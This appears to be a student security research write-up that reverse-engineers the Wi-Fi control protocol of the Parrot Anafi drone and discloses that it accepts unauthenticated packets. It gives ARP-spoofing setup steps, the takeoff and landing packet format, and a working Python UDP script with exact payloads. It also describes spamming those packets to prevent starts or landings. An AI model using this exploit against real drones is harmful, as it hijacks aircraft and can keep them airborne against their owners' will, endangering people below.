 # Parrot Anafi Drone Reverse Engineering

In this example, we demonstrate how we reverse-engineered the communication between the Parrot Anafi consumer drone and its controller, which connect via Wi-Fi. The Parrot Anafi hosts its own Wi-Fi network, allowing either the controller or a phone running the Freeflight app to connect. Our goal was to understand the signals sent to the Anafi for initiating takeoff and landing sequences.

## Test Setup

Start by connecting your PC to the Parrot Anafi’s Wi-Fi network. Next, set up an ARP spoofing attack to place your PC in a man-in-the-middle position between the drone and its controller. This can be accomplished using tools like Ettercap, allowing your device to capture the data exchanged between the two.

The resulting test setup may look like this:

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Parrot Anafi test setup</p></figcaption></figure>

## Packet Analysis

Using Wireshark, we can look at the packets, which are send during a landing and a starting sequence (picture shows just a snippet):

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Example packet</p></figcaption></figure>

We can see that the communication between the drone and the controller is done over UDP. Every UDP packet had some kind of hex string as payload, which was non-ASCII

Next, we looked at the distribution of the packets send, of all packets send during one start and landing of the drone:

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Distribution of UDP packet type during one start and landing</p></figcaption></figure>

To distinguish which packet is responsible for the start and landing we captured 17 start and landings and saw that the amount of third type (length=53 bytes) of messages went from 2 to 34. Could this be the packet which controls the start/landing? since 17\*2=34

We can filter in Wireshark with `frame.len==53` to filter just for the start/landing packets:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Wireshark filter which only shows start and landing packets</p></figcaption></figure>

The payload of the packets had a pretty clear structure: (here an example of a few)

```
04 0b 0b 00 00 00 00 01 00 01 00
04 0b 0c 0b 00 00 00 01 00 03 00
04 0b 0d 0b 00 00 00 01 00 01 00
04 0b 0e 0b 00 00 00 01 00 03 00
04 0b 0f 0b 00 00 00 01 00 01 00
04 0b 10 0b 00 00 00 01 00 03 00
04 0b 11 0b 00 00 00 01 00 01 00
04 0b 12 0b 00 00 00 01 00 03 00
```

After analyzing the protocol more, we could reverse the format of this type packet:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Structure of start and landing packets</p></figcaption></figure>

## Attack

Let's see if we can send our own packets from our PC to the drone, in order to start and land it, without using the controller. For that we setup a Python script (see below) to send a UDP packet with the payload `040bff0b000000300001000100` to the drone to start it. Note that we set the counter to `FF`, as packets are dropped by the drone if the counter value is less than the current counter. Using `FF` ensures it is always accepted.

```python
import socket

# Define target IP and ports
target_ip = "192.168.42.1"
destination_port = 2233

# Define the payload
payload = bytes.fromhex("040bff0b000000300001000100") #for starts
#payload = bytes.fromhex("040bff0b000000300001000300") #for landings

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Send the payload to the target IP and port
sock.sendto(payload, (target_ip, destination_port))

# Close the socket
sock.close()

print(f"Payload sent to {target_ip}:{destination_port}")
```

And we did it! The drone performed its auto-start maneuver and was hovering above! In order to land the drone again we can send `040bff0b000000300001000300`to the drone. Note that the trigger byte (2nd last byte) was set to `03`.

Notice, one does not need to change the MAC address to get these results. The Anafi processed the packages even though the laptop was not the primary controller at this time.

If we spam either the takeoff or landing command, the following attacks can be exploited:

1. **Possible Attacks**
   1. Prevent starts
      1. The next experiment was to spam the landing command constantly, with the result that the drone was unable to start using the controller. The drone’s rotors were spinning for a second but then the landing command was received and the Anafi stopped the starting process.
   2. Prevent landings
      1. The same result could be achieved with spamming the starting package. If one presses the landing button on the controller or phone the drone started to go down, but as soon as the starting package from the laptop came in the drone stopped the landing and stared to hovering above the ground again. As a result, the phone user was unable to land the drone properly.

## Summary

This case study shows why it is relevant to reverse network protocols when analyzing IoT devices. As an attacker, who has access to the Parrot Anafis WiFi network we can send unauthenticated packets to the drone and control its starts and landings. This can be done by any device, which can connect to WiFi networks.

## Resources

* Bachelor Thesis, Jonas Rosenberger (me)
* [Parrot ANAFI](https://www.parrot.com/en/drones/anafi)
